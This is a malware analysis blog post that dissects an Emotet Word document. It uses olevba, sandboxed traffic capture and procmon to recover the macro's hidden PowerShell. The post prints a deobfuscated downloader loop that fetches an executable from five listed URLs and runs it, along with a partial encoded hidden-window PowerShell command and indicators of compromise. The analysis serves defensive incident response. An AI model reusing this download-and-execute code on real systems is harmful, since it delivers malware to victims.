








## Introduction

Today we will do an analysis of the [Emotet](https://en.wikipedia.org/wiki/Emotet) malware, out sample will be a *.doc* file that contains malicious *[macros](https://learn.microsoft.com/en-us/microsoft-365/security/intelligence/macro-malware?view=o365-worldwide)*, we will manually extract, decode and deobfuscate the malicious code and talk about multiple ways to perform this task.

## Sample Details

| Hashes | |
| ---- | ---- |
|MD5 | 1d6f0e7e30c1d9e3f64b0d36e602da50 |	
|SHA-1 | 895d6dd7f677e45e997b03cef761fc40e10b22ba |
|SHA-256 | 70b4dbed87a8be890a088d70057ce44413bf3a65df5c5c15d049de0b9c47ff8d |

Detection Results:



## Tools Used

```text
- VirtualBox
- PEstudio
- HxD
- Procmon
- Process Hacker
- fakeDNS
- InetSim
- Wireshark
- Caffeine
```

## Basic Static Analysis

First we will do some basics checks by loading the document into pestudio to get the hash.


And then we will check the file signature with a hex editor to confirm that we are dealing with a word document.


The file signature *DO CF 11 E0* (I see what they did there) confirms that we are dealing with a *.doc* file which is defined as:
```text
Compound File Binary Format, a container format defined by Microsoft COM. It can contain the equivalent of files and directories. It is used by Windows Installer and for documents in older versions of Microsoft Office.
```
Now that we know that we are dealing with a *.doc* file let's check for embedded macros using *oletools*.
```bash
remnux@remnux:~/malware/emotet$ olevba REP_89419812646634117.doc
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Create              |May execute file or a system command through |
|          |                    |WMI                                          |
|Suspicious|showwindow          |May hide the application                     |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|ChrW                |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```
*olevba* has not only found the macros, but it also gave us a neat summary of it's findings.

The main take that we get of the summary is that the file will attempt to execute a hidden obfuscated command when opened.
## Dynamic Analysis

Now we can start to dynamically analyze the file by opening it in a Windows VM and setting up *InetSim* and *FakeDNS* in our Remnux VM to intercept the traffic generated by the Windows VM.

When opening the *.doc* file in Microsoft Word it should be noted that we need to enable macros as they are disabled by default for security reasons.


#### Traffic Analysis VM.

Immediately we receive DNS queries in our analysis VM.

There are 5 URLS being queried, that's a key element of the Emotet malware, there are *always* 5 URLS.
```bash
remnux@remnux:~$ fakedns

...(SNIP)...

fakedns[INFO]: Response: amelano.net -> 10.10.10.2
fakedns[INFO]: Response: 911concept.com -> 10.10.10.2
fakedns[INFO]: Response: ayonschools.com -> 10.10.10.2
fakedns[INFO]: Response: beech.org -> 10.10.10.2
fakedns[INFO]: Response: firelabo.com -> 10.10.10.2
```
InetSim reports that the infected machine is attempting to send HTTP GET requests to the domain names reported by FakeDNS.

```bash
=== Report for session '2282' ===

Real start date            : 2023-02-03 13:15:05
Simulated start date       : 2023-02-03 13:15:05
Time difference on startup : none

2023-02-03 13:15:07  First simulated date in log file
2023-02-03 13:15:51  HTTP connection, method: GET, URL: http://amelano.net/wp-includes/css/dist/2ew/
2023-02-03 13:15:51  HTTP connection, method: GET, URL: http://911concept.com/images/i6ngX5/
2023-02-03 13:15:52  HTTP connection, method: GET, URL: http://ayonschools.com/UBkoqn/
2023-02-03 13:15:52  HTTP connection, method: GET, URL: http://beech.org/wayne/lldo/
2023-02-03 13:15:52  HTTP connection, method: GET, URL: http://firelabo.com/wp-includes/mf6f4/
```

#### Infected VM.

After loading and enabling the execution of macros in the infected machine *Process Hacker* shows that *powershell.exe* has been spawned.



With that knowledge we can use procmon's process tree (CTRL+T) to find the spawned powershell process.



Having found the powershell process we can see it's properties and get the command that it's running.



## Decoding

Know that we have the encoded powershell command we can load it in *cyberchef*, decode it and extract IOCs using the following filters.


The URLS found in the decoded powershell command are the same URLS that we caught in our traffic analysis VM.

```bash
http://amelano.net/wp-includes/css/dist/2ew/
http://911concept.com/images/i6ngX5/
http://ayonschools.com/UBkoqn/
http://beech.org/wayne/lldo/
http://firelabo.com/wp-includes/mf6f4/
```
We can also take the decoded powershell command and with some patience manually deobfuscate it to see if there are more IOCs, which spoiler alert there are, and to get a clean version of the downloader's code.

```powershell
Urls = 'http://amelano.net/wp-includes/css/dist/2ew/,
        http://911concept.com/images/i6ngX5/,
        http://ayonschools.com/UBkoqn/
        http://beech.org/wayne/lldo/
        http://firelabo.com/wp-includes/mf6f4/'

foreach($url in Urls ) 
{
    try {
        &('new-object')net.webclient.downloadfile($urls, $env:userprofile+'\+267.exe')
    
        If ((.('Get-Item') $env:userprofile+'\+267.exe').Length -ge 25859) {
            [Diagnostics.Process]::START($env:userprofile+'\+267.exe')
            break
        }
    } 
    catch{
        
    }
}
```
The code not only confirms that there are 5 URLs that the malware attempts to reach, it also shows the name and location of the file that it's trying to fetch from those URLs that gives us more that to pass on to the incident response team.

```bash
# Attempts to download files to:
C:\users\$USERNAME\267.exe
```

## Bonus: Other ways of extracting

There are other multiple and more straight forward ways of extracting the powershell command that the malware runs, some of them are:

1 - Using the tool *vipermonkey* will extract the same command that we extracted with procmon without the need to use a Windows VM.
```bash
remnux@remnux:~/malware/emotet$ vmonkey REP_89419812646634117.doc 

...(SNIP)...

Recorded Actions:
+-------------------+---------------------------+---------------------------+
| Action            | Parameters                | Description               |
+-------------------+---------------------------+---------------------------+
| Found Entry Point | document_open             |                           |
| GetObject         | ['winmgmtS:win32_Process' | Interesting Function Call |
|                   | ]                         |                           |
| GetObject         | ['winmgmtS:win32_ProcessS | Interesting Function Call |
|                   | tarvtP']                  |                           |
| Create            | ['Powershell -w hidden    | Interesting Function Call |
|                   | -en JABXAGgAaAB2AGQAeAByA |                           |
|                   | GIAcQB3AGwAawBmAD0AJwBBAG |                           |
|                   | 8AawBqAHMAdgBuAGcAcgBsAGs |                           |
|                   | AZABrACcAOwAkAEQAYQBiAHcA |                           |
|                   | ZwByAGwAcwBjAGIAbgB1AGQAI |                           |
|                   | AA9ACAAJwAyADYANwAnADsAJA |                           |
|                   | BXAGkAcwBhAGwAeABuAGcAeQB |                           |
|                   | tAHkAawA9ACcASABmAHIAZABh |                           |
|                   | AHoAagB1AG0AYwBqAGIAcAAnA |                           |
|                   | DsAJABQAHEAegBvAHEAeABzAG |                           |
...(SNIP)...
```
2 - Internet sandboxes like *anyrun* can also report the command that's being run and get the IOCs (although it's the most straightforward way of doing it some IOCs can actually be missed if not performing manual analysis).

3 - *Kahu Security's CMD Watcher* watches for the CMD, PowerShell and other processes, suspends it, extracts the command line data, then optionally kills it, making it also a great tool for extracting the powershell command without actually executing it, although it's still advised to use an isolated VM when attempting this route.

## Conclusion

With this we conclude this quick and fun analysis of the classic Emotet downloader. I hope that you enjoyed the post.

Stay safe and keep on hunting.

Lux-Sit